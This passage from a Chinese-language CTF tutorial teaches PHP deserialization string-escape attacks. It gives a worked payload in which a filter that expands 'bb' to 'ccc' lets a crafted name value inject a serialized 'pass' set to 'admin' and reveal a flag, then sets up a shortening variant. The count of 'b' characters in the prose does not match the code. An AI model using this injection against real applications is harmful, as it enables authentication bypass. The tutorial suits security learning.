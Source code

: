 ![php_unseriablize12](phpUnserialize/s12.png)

按照一个 `bb`转变为 `ccc`会逃逸 `1`个字符，如果我们要逃逸 `26`个字符，那么我们需要 `26`个 `bb`

![php_unseriablize13](phpUnserialize/s13.png)

所以生成的 `name`值为 `bbbbbbbbbbbbbbbbbbbbbbbbbb";s:4:"pass";s:5:"admin";}`

生成 `payload`

```php
<?php

	highlight_file(__FILE__);
	require_once('flag.php');
	function waf($str) {
		return str_replace('bb', 'ccc', $str);
	}

	class A {
		public $name = 'bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";s:4:"pass";s:5:"admin";}';
		public $pass = '123456';
	}

	echo "<br>serialize a:<br>" . serialize(new A()) . "<br>";
	echo "waf serialize a:<br>" . waf(serialize(new A())) . "<br>";
	$c = unserialize(waf(serialize(new A())));
	if ($c->pass === 'admin') {
		echo $flag;
	} else {
		echo "no no no";
	}
```

![php_unseriablize14](phpUnserialize/s14.png)

可以看到在经过 `waf`函数后，逃逸后的反序列化长度符合，可以正常反序列化，反序列化 `}`前的值

最终改变了 `$pass`的值获取 `flag`

## PHP反序列化字符串逃逸(变短)

```php
<?php

	require_once('flag.php');
	highlight_file(__FILE__);
	function waf($str) {
		return preg_replace("/ctf|flag/i", "", $str);
	}

	$test['name'] = $_GET['name'];
	$test['sign'] = $_GET['sign'];
	$test['year'] = '2021';


	$tmp = waf(serialize($test));
	echo "<br>" . $tmp . "<br>";

	$result = unserialize($tmp);
	echo $result['year'];
	if ($result['year'] === '2100') {
		echo $flag;
	}
```